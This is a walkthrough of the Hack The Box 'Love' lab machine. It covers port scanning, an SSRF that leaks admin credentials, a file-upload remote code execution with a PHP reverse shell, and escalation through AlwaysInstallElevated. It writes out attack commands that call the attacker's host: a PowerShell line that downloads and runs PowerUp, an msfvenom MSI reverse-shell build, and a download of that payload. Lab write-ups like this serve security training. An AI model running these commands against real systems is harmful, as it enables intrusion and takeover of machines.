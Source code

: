 ```yaml
---                                                                                           
title: Hack The Box - Love writeup                          
date: 2021-08-17 19:24:00 +0200                                                              
categories: [ Hack The Box, Machines]                                                                
tags: [ssrf, lfi, known-exploit, file-upload, rce, windows, powerup, msfvenom, always-install-elevated , misconfiguration, malicious-msi]     
dirImg: /assets/img/HackTheBox/Love                     
image:
  src: /assets/img/HackTheBox/Love/icon.webp
  alt: Love image
toc: false                                                                                    
---
```


Start with usual nmap enumeration 
```bash
$ nmap -sC -sV -oN nmap-initial 10.10.10.239

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 17:42 CEST
Nmap scan report for 10.10.10.239
Host is up (0.013s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPSearchReq, NotesRPC: 
|_    Host '10.10.14.217' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/25%Time=60AD1AF0%P=x86_64-pc-linux-gnu%r(LD
SF:APSearchReq,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20no
SF:t\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(No
SF:tesRPC,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h41m34s, deviation: 4h02m31s, median: 21m33s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-25T09:04:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-25T16:04:16
|_  start_date: N/A

```

We have 3 web servers but we are only allowed to visit the one hosted on port 80. We get *Forbidden* for all the others.

We can extract some info from the SSL certificate

>![]({{ page.dirImg }}/20210525-175432.png){: .shadow}

We proceed to add the 2 love.htb domains to the `/etc/hosts` file.

If we visit `http://staging.love.htb `we are redireced to the following page:

>![]({{ page.dirImg }}/20210525-180336.png){: .shadow}

In the demo tab we can specify a file from our machine

>![]({{ page.dirImg }}/20210525-182156.png){: .shadow}

and its content gets displayed 

>![]({{ page.dirImg }}/20210525-182309.png){: .shadow}


Let's try with a more interesting payload: `<script>alert("hey");</script>`

>![]({{ page.dirImg }}/20210525-182615.png){: .shadow}

Here we go, we can inject javascrypt.

What about php?   
We try with: `<?php phpinfo(); ?>`

Nope it doesn't work


So we could:

1. Find a way to have code execution 
2. Include a local file to get its content


## Local file inclusion (LFI)

>![]({{ page.dirImg }}/20210525-185228.png){: .shadow}

Remember that we were forbidden to access the page on port 5000. We try that one

>![]({{ page.dirImg }}/20210525-185541.png){: .shadow}

And we have some admin credentials: `admin:@LoveIsInTheAir!!!!`

We go to the administration page we previously found with gobuser, namely `http://love.htb/admin/`.

We enter the credentials and we are in.


## Voting administration portal

>![]({{ page.dirImg }}/20210525-190137.png){: .shadow}

Seems that Neovic Devierte is the name of the admnisrator

>![]({{ page.dirImg }}/20210525-191211.png){: .shadow}

The website has been produced by Sourcecodemaster

>![]({{ page.dirImg }}/20210525-192140.png){: .shadow}

By googling we find that this version of Voting system has a RCE exploit in Exploit DB

> ![]({{ page.dirImg }}/20210525-192343.png)

We have file upload vulnerability in the candidate page, so we create a candidate and upload our reverse shell (The target machine is a Windows host, so we need a reverse shell for windows. A php reverse shell will work fine as php files are executed by Apache). We used https://github.com/ivan-sincek/php-reverse-shell.

>![]({{ page.dirImg }}/20210525-193249.png){: .shadow}

Meanwhile we also set up a meterpreter listener:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.217
set lport 9001
run
```

Then we upload the file and get the callback

>![]({{ page.dirImg }}/20210525-233905.png){: .shadow}

We get a shell as the Phoebe user

We can go in the Phebe desktop folder and get the user flag

## Root

We first try to upgrade our shell to a meterpreter shell but unsuccessfully

Then we start the windows enumeration 

We used `PowerUp`.

Invoking all the checks:

```
C:\Users\Phoebe>powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.224:8000/PowerUp.ps1'); Invoke-AllChecks
                                                                                                                                                                                              
[.....]                                                                                             

Check         : AlwaysInstallElevated Registry Key                          
AbuseFunction : Write-UserAddMSI             

[.....]                                    
```

The `AlwaysInstallElevated` registry key is up. It allows non-priv users the ability to install .msi packages with elevated permissions.

### EoP

Create malicious **msi** using **msfvenom**
```
$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.224 LPORT=9002 -f msi -o e
scalate.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: escalate.msi
```


Transfer file to target machine
```
powershell Invoke-WebRequest -Uri http://10.10.14.224:8000/escalate.msi -OutFile escalate.msi
```

Then execute the malicious **msi**

>![]({{ page.dirImg }}/20210602-005937.png){: .shadow}
